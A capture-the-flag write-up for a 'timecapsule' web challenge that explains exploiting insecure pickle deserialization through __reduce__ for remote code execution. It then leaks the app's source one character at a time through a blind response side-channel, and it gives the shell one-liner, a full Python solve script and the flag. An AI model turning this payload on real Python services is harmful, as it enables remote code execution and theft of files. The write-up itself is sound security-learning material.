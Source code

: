 The challenge had an endpoint that processed user supplied serialized data.

This allowed RCE (that was my first thought when I saw insecure deserialization with pickle; the actual solution is much simpler).

After achieving RCE by abusing the ``__reduce__`` method, the command output wasn’t returned directly, but I noticed the response message differed on success versus failure. This gave me the idea of performing a blind RCE side‑channel to leak the flag one character at a time.

here is the one liner i was using (it was used with ``subprocess.run`` )

```sh
tr -d "\n" < /app/app.py | head -c {len(leak)+1} | grep -q "^{leak+c}" && echo Matched || asdf
```

If it matches, it echoes Matched, triggering the success response; if it doesn’t match, it tries to execute asdf and returns an error response.
Since i didnt find the flag in /flag.txt (not /flag), I decided to leak the application’s source code and there were i found the flag.

Flag: shellmates{TiM3_tR4vEL_D3$3RIal1ZaT10N_Hack}

solve script:

```py
#!/usr/bin/env python3
import pickle
import base64
import subprocess
import requests
import time

import string


leak = "from flask import Flask, request, render_template, jsonify, sessionimport pickleimport base64import osimport hashlibimport timefrom datetime import datetimeapp = Flask(__name__)app.secret_key = os.urandom(24)# Store time capsules in memory (in production would use database)time_capsules = {}# Admin vault containing the flagADMIN_VAULT = {    'title': 'Company Secret Vault',    'message': 'shellmates{TiM3_tR4vEL_D3$3RIal1ZaT10N_Hack}"

while True: 
    found = False
    for c in "()$@!$}!#':_= {"+string.ascii_letters+string.digits+'}.':
        print(f"Trying character: {c} (current leak: {leak})")

        CMD_ARGS = ["sh", "-c", f'tr -d "\\n" < /app/app.py | head -c {len(leak)+1} | grep -q "^{leak+c}" && echo Matched || asdf']
        # CMD_ARGS = ["sh", "-c", f'tr -d "\\n" < /app/app.py | head -c {228+len(leak)+1} | tail -c {len(leak)+1}  | grep -q "^{leak+c}" && echo Matched || asdf']

        TARGET_URL  = "https://timecapsule.hackini25.shellmates.club/retrieve"


        class TimeCapsule:
            def __reduce__(self):

                return (subprocess.check_output, (CMD_ARGS,))

        def generate_payload():
            capsule = TimeCapsule()
            pickled = pickle.dumps(capsule)
            return base64.b64encode(pickled).decode()

        b64_payload = generate_payload()

        headers = {"Content-Type": "application/json"}
        start = time.time()
        try:
            res = requests.post(
                TARGET_URL,
                json={"capsule_data": b64_payload},
                headers=headers,
                timeout=10
            )
            if "true" in res.text:
                found = True
                leak += c
                print(f"Found character: {c} (current leak: {leak})")
                break
            else:
                print(res.text)
        except Exception as e:
            print(f"\nRequest failed: {e}")
    if not found:
        print("exiting")
        exit(0)

```